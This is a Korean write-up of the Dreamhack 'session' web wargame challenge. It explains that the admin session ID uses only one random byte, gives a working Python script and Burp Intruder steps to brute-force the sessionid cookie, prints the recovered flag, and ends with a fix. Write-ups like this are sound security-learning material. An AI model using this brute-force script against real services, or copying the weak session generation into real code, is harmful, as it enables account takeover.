





# [Dreamhack] Session - Web Hacking

## 1. 문제 개요
* **문제 링크:** [Dreamhack - session](https://dreamhack.io/wargame/challenges/266)

* **분야:** Web

* **목표:** 취약한 세션 생성 로직을 익스플로잇하여 `admin` 계정의 세션을 탈취하고 플래그 획득.

## 2. 취약점 분석
제공된 `app.py` 소스 코드를 분석한 결과, 서버 초기화 시 `admin` 계정에 대한 세션을 사전 생성하는 로직에서 취약점을 확인.

```python
if __name__ == '__main__':
    import os
    session_storage[os.urandom(1).hex()] = 'admin'
    print(session_storage)
    app.run(host='0.0.0.0', port=8000)
```

* **분석 결론:** `__main__` 실행 블록에서 `admin`의 세션 ID를 생성할 때 `os.urandom(1).hex()`를 사용함. `os.urandom(1)`은 단 1바이트의 난수만 생성하므로, 세션 ID의 경우의 수가 00부터 ff까지 총 256개에 불과함. 이는 **세션 예측** 및 브루트 포스 공격에 매우 취약한 상태임.

## 3. 공격 수행
세션 ID의 범위가 256개(0x00 ~ 0xff)로 매우 제한적이므로, 파이썬 스크립트를 활용하여 자동화된 브루트 포스 공격을 수행. 

### 3.1. 파이썬 기반 브루트 포스 스크립트 작성
1. `requests` 라이브러리를 사용하여 0부터 255까지 반복문을 실행.

2. 각 숫자를 2자리 16진수 포맷(예: `00`, `0a`, `ff`)으로 변환하여 `sessionid` 쿠키 값으로 설정.

3. 타겟 메인 페이지(`/`)로 GET 요청을 전송.

4. 응답 본문(`response.text`)에 관리자 권한 성공 문자열(플래그)이 포함되어 있는지 검증 및 출력.

```python
import requests

# 문제의 접속 URL
url = "http://host8.dreamhack.games:22904"

# 0~255까지 16진수 값을 생성하여 취약한 세션 ID 범위를 전수 조사 (0x00 ~ 0xff)
for i in range(256):
    # 숫자를 2자리 16진수 문자열로 변환 (예: 10 -> '0a')
    session_id = f"{i:02x}"
    
    # 생성한 쿠키를 헤더에 담아 관리자 페이지 접근 시도
    cookies = {'sessionid': session_id}
    response = requests.get(url, cookies=cookies)
    
    # 응답에 admin 권한일 때만 나오는 텍스트가 있는지 확인
    if "flag is" in response.text: 
        print(f"[+] Found Admin Session ID: {session_id}")
        print(f"[+] FLAG: {response.text}")
        break
```

### 3.2. 프록시 도구(Burp Suite) 활용
* **방식:** 별도의 코딩 없이 Burp Suite의 `Intruder` 기능을 활용하여 `sessionid` 쿠키 값을 0x00부터 0xff까지 순차적으로 대입하며 서버의 응답 변화를 탐지함.

1. **패킷 가로채기 및 위치 설정:** 메인 페이지(`/`) 요청 패킷을 `Intruder`로 보낸 뒤, `Cookie: sessionid=§00§` 헤더를 수동으로 추가하여 공격 포인트 지정.

2. **페이로드 설정:** `Payload type`을 `Numbers`로 설정하고, 16진수 값을 대입하기 위해 `Base`를 `Hex`로 변경. 범위를 `0`부터 `ff`까지 지정함.

3. **공격 실행:** 256개의 요청을 자동으로 전송하며 응답의 `Length` 값을 모니터링함.

4. **결과 분석:** 다른 응답들과 달리 길이가 다른(`Length : 1505`) 특정 페이로드(`dc`)를 식별하고, 해당 응답의 본문에서 관리자 권한으로 출력된 플래그를 획득함.





## 4. 획득 결과
파이썬 익스플로잇 스크립트와 Burp Intruder를 통해 각각 브루트 포스 공격을 수행한 결과, 유효한 `admin` 세션 ID를 식별하고 관리자 페이지에 하드코딩된 플래그를 성공적으로 탈취함.



```text
[jgw@wanja src]$ python3 exploit.py
[+] Found Admin Session ID: dc
[+] FLAG: 
... (생략) ...
<h3>Hello admin, flag is DH{73b3a0ebf47fd6f68ce623853c1d4f138ad91712}</h3>
... (생략) ...
```
* **식별된 Admin Session ID:** `dc` (실행 시점에 따라 변동 가능)

* Cookies칸에서 sessionid를 dc로 설정하고 새로고침해서 플래그 획득



* **FLAG:** `DH{73b3a0ebf47fd6f68ce623853c1d4f138ad91712}`

## 5. 대응 방안
단 1바이트의 난수를 세션 ID로 사용하는 것은 암호학적으로 매우 안전하지 않으며, 외부 공격자가 유효한 세션을 쉽게 추측할 수 있게 함.

* **세션 생성 로직 보완:** `os.urandom()`의 인자 값을 늘려 충분한 엔트로피를 확보해야 함. 최소 16바이트(128비트) 이상의 난수를 사용하거나, 프레임워크에서 기본적으로 제공하는 안전한 세션 관리 메커니즘을 사용하는 것을 권장.
  (수정 예시: `os.urandom(16).hex()` 또는 `os.urandom(32).hex()`)